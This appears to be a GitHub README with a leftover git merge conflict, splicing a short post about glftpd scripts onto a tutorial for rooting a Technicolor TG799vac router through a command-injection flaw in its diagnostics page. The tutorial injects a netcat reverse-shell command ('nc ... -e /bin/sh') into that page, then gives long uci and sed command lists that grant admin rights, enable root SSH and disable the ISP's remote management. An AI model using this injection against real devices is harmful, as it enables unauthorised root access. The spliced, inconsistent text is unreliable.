<<<<<<< HEAD
lo Gentoo friends. I have been added installations scripts for gl/pzs-ng back to my git, sorry it toke THAT long time to re-upload them (just toke 2years? ;P).. Go grab the scripts here https://github.com/wuseman/wglftpd .. Let me know if things works as expected. Also alot of various scripts from different fellas was added earlier this week..

Eggdrop and all other stuff will also get re-upped later but not right now. Atleast you can get things up and running within ~30seconds again. Pzs-ng and imdb features is supposed to work aswell.Will add it to wuseman-overlay later.. Questions? Feel free to pm me. For faster replies you will find me on @freenode #Gentoo, k thx
=======

# README

   Telia users with this router model can finally unlock the router and get more features added by hacking the firmware due to an exploit missed by Technicolor developers, this hack works for all 
internet providers worldwide
   that deliver this router aslong you are using the same version as in this tutorial, Jade (16.2). Technicolor has fixed the exploit in version 17.* and above. Telia still is using version 16.2 as 
default so hurry up before it is 
to
   late since the router upgrading itself otherwise. In this wiki i will show how you can turn this auto-upgrade off.

   Please note that if you rent your router from your carrier, you will be liable for repayment if you bricking the device. This is stated in the agreement you have with your carrier, atleast 
customers of Telia has done an 
   agreement if you chosed to get the router along with the order of the internet subscription. Please check this out first if you do not want to risk paying compensation for a bricked device because 
there is always a risk of 
   hacking a firmware. If you follow my guide then everything should be fine, I will not take any responsibility if you bricking your device in any way at all!!!! All users that following this wiki 
is hacking their 
   device at their own risk and they have been well informed of the risks it CAN causes to hack the firmware!!

   Required for this tutorial:

   Of course a Thomson TG799vac-Xtreme router with a firmware that is using version 16.2.

   Netcat wich is a computer networking utility for reading from and writing to network connections using TCP or UDP.
   Netcat is available for Linux and Windows, for android use termux wich providing netcat. For osx/ios i have no idea what is available because I do not care. ;)

   With all that said let's start with the funny part.

# HOWTO

#### Set up a netcat listener on your machine, and adjust any firewall rules to allow an inbound connection:

    nc -lvvp [machine_port]

 

#### Go to the ping/traceroute diagnostics page in the gateway’s web management, and enter the following:

    :::::::`nc [machine_IP] [machine_port] -e /bin/sh`

## Here i providing a picture aswell: 



## You should see it like this now:



### Set your password and then copy / paste:

    uci add_list web.assistancemodal.roles='admin' 
    uci add_list web.usermgrmodal.roles='admin'
    uci add_list web.todmodal.roles='admin'
    uci add_list web.iproutesmodal.roles='admin'
    uci add_list web.cwmpconf.roles='admin'
    uci add_list web.relaysetupmodal.roles='admin'
    uci add_list web.xdsllowmodal.roles='admin'
    uci add_list web.natalghelper.roles='admin'
    uci add_list web.mmpbxglobalmodal.roles='admin' 
    uci add_list web.mmpbxprofilemodal.roles='admin' 
#### OBS!! THIS IS A BACKDOOR > Please go whois the ip to witness it yourself
   So who have access to this machines running on this ip? Of course i asked, 
   and Telia told me in a mail that **ALL** people who works for Telia Support!! **As if we can know if this is abused?**
    
    sed -i s/'131.116.22.242'/'xx.xx.xx.xx'/g /etc/config/dropbear 
#### OBS!! THIS IS A BACKDOOR > Please go whois the ip to witness it yourself 
   This backdoor is for **ALL** people who works for Technicolor Technologies in Belgium!! **As if we can know if this is abused?**

    sed -i s/'82.146.125.0'/'xx.xx.xx.xx'/g /etc/config/dropbear 

    sed -i '1,18 s/^/#/' /etc/config/dropbear
    sed -i '20s/off/on/' /etc/config/dropbear 
    sed -i '21s/off/on/' /etc/config/dropbear
    sed -i '24s/0/1/' /etc/config/dropbear
    sed -i '25s/0/1/' /etc/config/dropbear
    /etc/init.d/nginx restart
    
### ^ Gave you 10 new settings in web interface
#### Please go and witness it on http://dlsdevice.lan 
   Let me provide the default view to see the difference before and after we run these commands
   since I know that there are people who are paranoid for changes due to root. ;)
   The firmware has been **extremely** downgraded to the worse for us consumers.

### Default settings for Telia web-interface looks like this:


### This is how it looks after we run these commands above:


### Now you can continue to copy and paste to set some important change for our privacy.

    uci set dropbear.lan.enable='1'
    uci set dropbear.lan.PasswordAuth=on
    uci set dropbear.lan.RootPasswordAuth=on
    uci add_list web.tvoicesipconfig.roles=admin
    uci add_list web.tvoicecontacts.roles=admin
    uci add_list web.tvoicecalllog.roles=admin
    uci add_list web.tvoicecapability.roles=admin
    uci add_list web.parentalblock.roles=admin
    uci add_list web.ruleset_main.rules=mmpbxinoutgoingmapmodal
    uci set web.mmpbxinoutgoingmapmodal=rule
    uci set web.mmpbxinoutgoingmapmodal.target='/modals/mmpbx-inoutgoingmap-modal.lp'
    uci add_list web.mmpbxinoutgoingmapmodal.roles=admin
    uci add_list web.ruleset_main.rules=mmpbxstatisticsmodal
    uci set web.mmpbxstatisticsmodal=rule
    uci set web.mmpbxstatisticsmodal.target='/modals/mmpbx-statistics-modal.lp'
    uci add_list web.mmpbxstatisticsmodal.roles=admin
    uci set cwmpd.cwmpd_config.state=0
    uci set cwmpd.cwmpd_config.upgradesmanaged=0
    uci set cwmpd.cwmpd_config.periodicinform_enable=0
    uci set cwmpd.cwmpd_config.acs_pass='0'
    uci set cwmpd.cwmpd_config.acs_user='0'
    uci set cwmpd.cwmpd_config.acs_url='invalid'
    uci set wifi_doctor_agent.config.enabled=0
    uci add_list web.ruleset_main.rules=cwmpconfmodal
    uci set web.cwmpconfmodal=rule
    uci set web.cwmpconfmodal.target='/modals/cwmpconf-modal.lp'
    uci add_list web.cwmpconfmodal.roles=admin
    uci set hotspotd.main.ipv4=0
    uci set hotspotd.main.enable=false
    uci set hotspotd.main.deploy=false
    uci set hotspotd.TLS2G.enable=0
    uci set hotspotd.FON2G.enable=0
    uci add_list web.ruleset_main.rules=iproutesmodal
    uci set web.iproutesmodal=rule
    uci set web.iproutesmodal.target='/modals/iproutes-modal.lp'
    uci add_list web.iproutesmodal.roles=admin
    uci add_list web.ruleset_main.rules=systemmodal
    uci set web.systemmodal=rule
    uci set web.systemmodal.target='/modals/system-modal.lp'
    uci add_list web.systemmodal.roles=admin
    uci add_list web.ruleset_main.rules=relaymodal
    uci set web.relaymodal=rule
    uci set web.relaymodal.target='/modals/relay-modal.lp'
    uci add_list web.relaymodal.roles=admin
    uci add_list web.ruleset_main.rules=natalghelpermodal
    uci set web.natalghelpermodal=rule
    uci set web.natalghelpermodal.target='/modals/nat-alg-helper-modal.lp'
    uci add_list web.natalghelpermodal.roles=admin
    uci set tls-vsparc.Config.Enabled='0'
    uci set tls-vsparc.Passive.PassiveEnabled='0'
    uci add_list web.ruleset_main.rules=diagnosticstcpdumpmodal
    uci set web.diagnosticstcpdumpmodal=rule
    uci set web.diagnosticstcpdumpmodal.target='/modals/diagnostics-tcpdump-modal.lp'
    uci add_list web.diagnosticstcpdumpmodal.roles=admin
    uci set system.config.export_plaintext='1'
    uci set system.config.export_unsigned='1'
    uci set system.config.import_plaintext='1'
    uci set system.config.import_unsigned='1'
    sed -e 's/session:hasAccess("\/modals\/diagnostics-network-modal.lp")/session:hasAccess("\/modals\/diagnostics-network-modal.lp") and \n session:hasAccess("\/modals\/diagnostics-tcpdump-modal.lp")/' -i /www/cards/009_diagnostics.lp
    sed -e 's^alt="network">
</td></tr>\\^alt="network">
</td>\\\n <td>

</td></tr>\\^' -i /www/cards/009_diagnostics.lp
    sed -e 's/{"logviewer-modal.lp", T"Log viewer"},/{"logviewer-modal.lp", T"Log viewer"},\n {"diagnostics-tcpdump-modal.lp", T"tcpdump"},\n/' -i /www/snippets/tabs-diagnostics.lp
    sed -e 's/getrole()=="guest"/getrole()=="admin"/' -i /www/snippets/tabs-voice.lp
    sed -e 's/{"mmpbx-sipdevice-modal.lp", T"Sip Device"},/{"mmpbx-sipdevice-modal.lp", T"Sip Device"},\n{"mmpbx-inoutgoingmap-modal.lp", T"In-Out Mapping"},\n{"mmpbx-statistics-modal.lp", T"Statistics"},/' -i /www/snippets/tabs-voice.lp
    sed -e 's/if currentuserrole == "guest" /if currentuserrole == "admin" /' -i /www/docroot/modals/gateway-modal.lp
    echo > /etc/rc.local
    /etc/init.d/nginx restart;
    /etc/init.d/cwmpd disable;
    /etc/init.d/cwmpdboot disable;
    /etc/init.d/wifi-doctor-agent disable;
    /etc/init.d/hotspotd disable;
    /etc/init.d/tls-vsparc disable; 
    killall -9 hotspotd cwmpd cwmpdboot watchdog-tch wifi-doctor-agent tls-vsparc;
    /etc/init.d/dropbear start
    uci commit

#### Serial Console

    More info will be addded here later, had no time to write this part yet.
    /etc/initd
    #ttyS0::askfirst:/bin/login
    echo > /etc/dropbear/authorized_keys

#### Speeding up VDSL sync times

    uci del_list xdsl.dsl0.profile='8a'
    uci del_list xdsl.dsl0.profile='8b'
    uci del_list xdsl.dsl0.profile='8c'
    uci del_list xdsl.dsl0.profile='8d'
    uci del_list xdsl.dsl0.profile='12a'
    uci del_list xdsl.dsl0.profile='12b'
    uci del_list xdsl.dsl0.multimode='gdmt'
    uci del_list xdsl.dsl0.multimode='adsl2annexm'
    uci del_list xdsl.dsl0.multimode='adsl2plus'
    uci commit
    reboot

### If you wish to add the selections to the web interface to play with later, you can run the following:

    uci add_list web.ruleset_main.rules=xdsllowmodal
    uci set web.xdsllowmodal=rule
    uci set web.xdsllowmodal.target='/modals/xdsl-low-modal.lp'
    uci add_list web.xdsllowmodal.roles='admin'
    uci commit

#### Changing max sync speeds

    uci set xdsl.dsl0.maxaggrdatarate='160000'
    uci set xdsl.dsl0.maxdsdatarate='110000'
    uci set xdsl.dsl0.maxusdatarate='40000'
    uci commit xdsl
    reboot

#### Using bridge mode with a dedicated PPPoE ethernet port
  
    uci set network.lan.dns='8.8.8.8'
    uci set network.lan.gateway='10.0.0.254'
    uci set mmpbxrvsipnet.sip_net.interface='lan'
    uci set mmpbxrvsipnet.sip_net.interface6='lan6'
    uci commit

#### You can check the current running dns with

    cat /etc/resolv.conf
    
#### Enable web interface features in Bridge Mode
    If you have the modem in bridge mode, the web interface is gutted compared to in routed mode.
    Edit /www/lua/cards_limiter.lua and change the following function to:
   
    'function M.card_limited(info, cardname)
     return false
     if info.bridged then
     return not bridge_limit_list[cardname]
     end
     return false
     end
     /etc/init.d/nginx restart

#### Tired on passwords and want to use dropbear key for login instead, then do following:

#### Generate the Key Pair on your pc (not router):

     ssh-keygen -t dsa

#### Next copy the public key with SCP to OpenWrt:
   
    scp ~/.ssh/id_dsa.pub root@192.168.1.1:/tmp

#### Now connect to your router.
#### Add the public key to the authorized_keys from ~/.ssh/id_dsa.pub

     cd /etc/dropbear
     cat /tmp/id_*.pub >> authorized_keys
     chmod 0600 authorized_keys
     exit
  
#### Disconnect from your router and type following on your pc:
   
     ssh root@192.168.1.1 "tee -a /etc/dropbear/authorized_keys" < ~/.ssh/id_rsa.pub
     
#### Now connect:
   
     ssh root@192.168.1.1
   
   

# Want get rid of the default layout?

   Then we has to edit the CSS files.
   I wont go though every color since its a huge job and really boring since telia 
   using like 10 different shades on their purple color!! :-/
   But as example, to change background of web interface you can copy and paste in shell:

     sed -i s/'eeeeee'/'000000'/g gw.css; sed -i s/'eeeeee'/'000000'/g lte-doctor.css; 
     sed -i s/'eeeeee'/'000000'/g responsive.css;  sed -i s/'eeeeee'/'000000'/g mobiled.css; 
     sed -i s/'eeeeee'/'000000'/g chosen.css

   As you can see on the pictures below the background has been changed:
   If you want to use 'theme wuseman' on your technicolor tg799-vac xtreme
   router then copy & paste my commands below the previews: (or download my css files and scp them over to router)

#### Login page:


#### Once you've logged in, it looks like this:


#### This is my personal theme from a mobile device:


#### This is my personal theme from a pc device:


#### A failed login attempt as user 'telia' or 'assist' (ofc, all usernames will be logged) will be reported from now since they dont have permissions to login if i didnt requested support from them:


#### We can see failed login attempts in the system log for both telnet, ssh and the web:


#### To get colors as above, paste following in router shell: 
    sed -i s/'333333'/'e6e6e6'/g gw.css; sed -i s/'333333'/'e6e6e6'/g responsive.css; sed -i s/'333333'/'e6e6e6'/g lte-doctor.css; 
    sed -i s/'333333'/'e6e6e6'/g chosen.css; sed -i s/'333333'/'e6e6e6'/g mobiled.css; sed -i s/'990ae3'/'55aa7f'/g gw.css; 
    sed -i s/'990ae3'/'55aa7f'/g responsive.css; sed -i s/'990ae3'/'55aa7f'/g chosen.css; sed -i s/'990ae3'/'55aa7f'/g mobiled.css; 
    sed -i s/'eeeeee'/'2f5e45'/g gw.css; sed -i s/'eeeeee'/'2f5e45'/g responsive.css; sed -i s/'eeeeee'/'2f5e45'/g lte-doctor.css; 
    sed -i s/'eeeeee'/'2f5e45'/g chosen.css; sed -i s/'eeeeee'/'2f5e45'/g mobiled.css; sed -i s/'a70af5'/'55aa7f'/g gw.css; 
    sed -i s/'990ae3'/'00aa00'/g gw.css; sed -i s/'45004e'/'005100'/g gw.css; sed -i s/'4d234d'/'003e00'/g gw.css; 
    sed -i s/'purple'/'green'/g gw.css; sed -i s/'a70af5'/'55aa7f'/g responsive.css; sed -i s/'990ae3'/'00aa00'/g responsive.css; 
    sed -i s/'45004e'/'005100'/g responsive.css; sed -i s/'4d234d'/'003e00'/g responsive.css; 
    sed -i s/'purple'/'green'/g responsive.css; sed -i s/'purple'/'green'/g gw.css; sed -i s/'a70af5'/'55aa7f'/g lte-doctor.css; 
    sed -i s/'990ae3'/'00aa00'/g lte-doctor.css; sed -i s/'45004e'/'005100'/g lte-doctor.css; sed -i s/'4d234d'/'003e00'/g lte-doctor.css; 
    sed -i s/'purple'/'green'/g gw.css; sed -i s/'a70af5'/'55aa7f'/g chosen.css; sed -i s/'990ae3'/'00aa00'/g chosen.css;
    sed -i s/'45004e'/'005100'/g chosen.css; sed -i s/'purple'/'green'/g lte-doctor.css; sed -i s/'4d234d'/'003e00'/g chosen.css; 
    sed -i s/'purple'/'green'/g chosen.css; sed -i s/'a70af5'/'55aa7f'/g mobiled.css; sed -i s/'990ae3'/'00aa00'/g mobiled.css; 
    sed -i s/'45004e'/'005100'/g mobiled.css; sed -i s/'4d234d'/'003e00'/g mobiled.css; sed -i s/'purple'/'green'/g mobiled.css; 
    sed -i s/'6dc56d'/'62ff00'/g gw.css; sed -i s/'6dc56d'/'62ff00'/g responsive.css; sed -i s/'6dc56d'/'62ff00'/g lte-doctor.css; 
    sed -i s/'6dc56d'/'62ff00'/g chosen.css; sed -i s/'6dc56d'/'62ff00'/g mobiled.css; sed -i s/'999'/'66ffe1'/g responsive.css;
    sed -i s/'f5f5f5'/'183124'/g gw.css; sed -i s/'f5f5f5'/'183124'/g responsive.css; sed -i s/'f5f5f5'/'183124'/g lte-doctor.css; 
    sed -i s/'f5f5f5'/'183124'/g chosen.css; sed -i s/'f5f5f5'/'183124'/g mobiled.css; sed -i s/'ffffff'/'ffaa00'/g mobiled.css; 
    sed -i s/'aaaaaa'/'87ff66'/g gw.css; sed -i s/'aaaaaa'/'87ff66'/g responsive.css; sed -i s/'aaaaaa'/'87ff66'/g lte-doctor.css; 
    sed -i s/'aaaaaa'/'87ff66'/g chosen.css; sed -i s/'aaaaaa'/'87ff66'/g mobiled.css; sed -i s/'ffffff'/'ffaa00'/g gw.css; 
    sed -i s/'ffffff'/'ffaa00'/g responsive.css; sed -i s/'ffffff'/'ffaa00'/g lte-doctor.css; sed -i s/'ffffff'/'ffaa00'/g chosen.css; 
    sed -i s/'ffffff'/'ffaa00'/g gw.css; sed -i s/'ffffff'/'ffaa00'/g responsive.css; sed -i s/'ffffff'/'ffaa00'/g lte-doctor.css; 
    sed -i s/'ffffff'/'ffaa00'/g chosen.css; sed -i s/'ffffff'/'ffaa00'/g mobiled.css; sed -i s/'999'/'66ffe1'/g gw.css; 
    sed -i s/'999'/'66ffe1'/g lte-doctor.css; sed -i s/'999'/'66ffe1'/g mobiled.css; sed -i s/'ccc'/'66ffe1'/g gw.css;
